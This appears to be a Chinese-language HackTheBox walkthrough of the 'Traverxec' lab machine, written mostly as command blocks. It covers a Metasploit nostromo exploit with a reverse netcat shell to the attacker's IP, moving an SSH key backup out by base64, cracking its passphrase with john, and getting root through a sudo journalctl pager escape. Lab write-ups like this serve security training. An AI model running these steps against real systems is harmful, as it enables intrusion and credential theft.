

# Traverxec

## 环境

平台：HackTheBox

攻击机：Kali（IP：10.10.15.145）

靶机：Traverxec（IP：10.10.10.165）

地址：https://www.hackthebox.eu/home/machines/profile/217

## Let's go

```
nmap -A 10.10.10.165
```


> **浏览网页并没有发现什么信息，但是搜索发现nostromo1.9.6具有漏洞**

```
msfconsole
search nostromo
use 0
info
```


```
set rhosts 10.10.10.165
set payload cmd/unix/reverse_netcat_gaping	 #建议
set lhost 10.10.15.145
set lport 4444
run
```


```
python -c 'import pty;pty.spawn("/bin/bash")';
cd /var/nostromo/conf
cat nhttpd.conf
```


>**拿到的密文放到服务器去跑，半天没出来。。。**
>**上面并没有发现public_www目录，怀疑在david中**

```
cd /home/david/public_www
cd protected-file-area
ls -la
```


```
base64 backup-ssh-identity-files.tgz                    #通过base64传输文件
vim 64                                                  #写入64文件
cat 64 | base64 -d > backup-ssh-identity-files.tgz      #解码输出
tar -zxvf backup-ssh-idntity-files.tgz
```




> **使用私钥登陆发现需要密码，使用john进行破解**

```
cd home/david/.ssh/
python /usr/share/john/ssh2john.py id_rsa > passwd
john --wordlist=/usr/share/wordlists/rockyou.txt passwd
```


```
ssh david@10.10.10.165 -i ./id_rsa
```


```
cd bin
cat server-stats.sh
```


> **查询发现journalctl可以提权，推荐网站：https://gtfobins.github.io/**

```
#需要调整终端窗口大小，跟less类似
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
!/bin/bash
cd
cat root.txt
```

